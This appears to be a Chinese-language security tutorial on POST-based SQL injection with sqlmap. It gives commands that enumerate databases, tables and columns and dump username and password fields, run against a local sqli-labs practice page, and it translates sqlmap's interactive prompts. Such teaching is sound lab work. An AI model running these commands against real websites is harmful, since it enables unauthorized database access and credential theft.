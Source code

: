 # SQL注入之sqlmap使用(post注入)

POST型：与数据库交互是通过post数据进行，URL不可见

### 利用sqlmap进行POST注入，常见的有三种方法:

## 注入方式一：

**1.用Burp抓包，然后保存抓取到的内容。例如：保存为1.txt,然后把它放至某个目录下**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/4acf54c747204860a73fe74a42a8c8c2.png)

**2.列数据库:**

这样可以查看post注入中当前网站的所有数据库

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname --dbs

也可以使用  *  指定需要测试的参数，这需要在文件当中指定*号,这样sqlmap工具会根据 *前面的参数进行测试能否注入。

![image-20240718170243789](6.2SQL注入之sqlmap使用(post注入)/image-20240718170243789.png)	

**it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]**
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n]  输入"Y"

**for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]**
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 输入"N"

**POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"Y"

![image-20240718165538493](6.2SQL注入之sqlmap使用(post注入)/image-20240718165538493.png)	

### 3.猜表

选择一个数据库，比如选test

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test --tables

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/583ad73419114e1ea19656c1102841d1.png)

**4.猜列**

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test  -T t1 --columns

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/f96cf3e6a13d4e90a7e3a051bf3fe64f.png)

查看user表中usernmae和password字段的所有数据。

```
sqlmap.py -r C:\Users\40409\Desktop\1.txt -p uname -D "security" -T "users" -C "username,password" --dump
```

![image-20240718170143449](6.2SQL注入之sqlmap使用(post注入)/image-20240718170143449.png)	

## 注入方式二：自动搜索表单的方式

sqlmap.py  -u "http://localhost/sqli-labs-master/Less-11/index.php" --forms

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/d1b1a089b2824e80a36551e501cfbe64.png)

do you want to test this form? [Y/n/q]
要测试此表单吗?[Y/n/q]  输入"Y"

do you want to fill blank fields with random values? [Y/n]
是否要填充带有随机值的空白字段? [Y/n]  输入"Y"

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 输入"Y"

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n]  输入"N"

POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"N"

do you want to exploit this SQL injection? [Y/n]
你想利用SQL注入？ 输入"Y"

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/490d416ed490474db5c6b8d6adcca84e.png)

常用命令：

```
-r表示加载一个文件，-p指定post的请求参数
--current-db 当前数据库
--forms 自动检测表单
-data   
```

```
sqlmap.py -r C:\Users\40409\Desktop\1.txt -p unmae --current-db
```

查看当前网站所使用的数据库

![image-20240718171054880](6.2SQL注入之sqlmap使用(post注入)/image-20240718171054880.png)	
